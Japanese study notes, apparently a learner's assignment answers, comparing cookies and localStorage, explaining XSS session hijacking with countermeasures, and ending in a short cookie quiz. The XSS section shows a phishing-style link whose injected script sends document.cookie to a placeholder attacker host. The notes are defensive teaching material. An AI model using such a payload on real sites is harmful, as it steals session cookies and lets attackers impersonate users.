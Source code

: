 
### localStorageを使うべきタイミング
ローカル ストレージはクライアント側でのみ読み取りが可能
このデータはクライアントが必要としていると判断した際は、localStorageに保存する。


### CookieとLocalStorageの違い
| 特徴             | Cookie             | LocalStorage   |
|------------------|--------------------|----------------|
| 保存容量         | 4KB                | 2MB+           |
| サーバへのデータ通信 | リクエスト毎        | 行わない         |
| 期限             | 任意で設定可能      | 半永久的         |
| セキュアページでのデータ共有 | 同じドメインで共有 | 非セキュアページと分離 |


[CookieとLocalStorageについて調べて比較した【JavaScript】](https://qiita.com/nanamihirooka/items/8cea5c5d40e1474b844f)
[Local Storage vs Cookies \[closed\]](https://stackoverflow.com/questions/3220660/local-storage-vs-cookies)

> Stack OverflowのようなWEB掲示板サービスを開発しているとしましょう。XSS（クロスサイトスクリプティング）により、他ユーザのCookie情報が抜き出される仕組みを説明してください。どのような対策が考えられますか？

### XSSを利用したセッションハイジャック
```HTML
// 悪意のサイトのXSSの例
<a href="http://target-web-app/index.html?param=<script>(new Image).src='http://attacker-site/log?'+document.cookie</script>">
  あなただけにアマゾンギフトカード1万円分プレゼント！！
</a>
```
1. 悪意のあるサイトが、攻撃対象のサイトへcookie情報を抜き取るスクリプトを仕込んだ、リンクを設置する。
2. ユーザーがそのリンクをクリックすることにより、悪意のあるサイトのlogにcookie情報が送られる。
3. 悪意のあるサイトの運営者がこのCookieを自分のブラウザにセットして、被害者ユーザーになりすましてログインする。

### 対策
- 入力のサニタイズ。スクリプトを無効化する  https://cybersecurity-jp.com/column/33684#i
- コンテンツセキュリティポリシー (CSP)を設定 https://developer.mozilla.org/ja/docs/Web/HTTP/CSP
- Cookie属性のHttpOnlyやSecureを設定する　https://qiita.com/kohekohe1221/items/80ff7a0bba6ac9128f56
- Cookie属性のSameSiteを設定する　

[XSSの傾向と対策](https://www.codegrid.net/articles/frontend-security-1/)

# 課題２（クイズ）
> Cookieに関するクイズを作成してください

Q1. ブラウザーの設定でCookieが無効になっているユーザーはログイン情報を維持することが出来ない。O or X。  
Q2. `Domain`属性が設定されていない場合、Cookieはどのドメインに送信されますか？  
Q3. 志布志市のふるさと納税特設サイトで情報漏洩の事例面白かったので、興味があれば読んでみてください。
[志布志市のふるさと納税特設サイトで情報漏洩、2年前の不正アクセスが明らかに](https://xtech.nikkei.com/atcl/nxt/column/18/01157/090600093/)
[ECサイトのクロスサイトスクリプティング脆弱性を悪用した攻撃](https://blogs.jpcert.or.jp/ja/2021/07/water_pamola.html)

A1. O  
A2. Domain属性が設定されていない場合、CookieはCookieを設定したドメインにのみ送信される。  
ドメイン属性は明示的に指定しないほうが安全らしい。https://blog.tokumaru.org/2011/10/cookiedomain.html  
A3. 回答なし
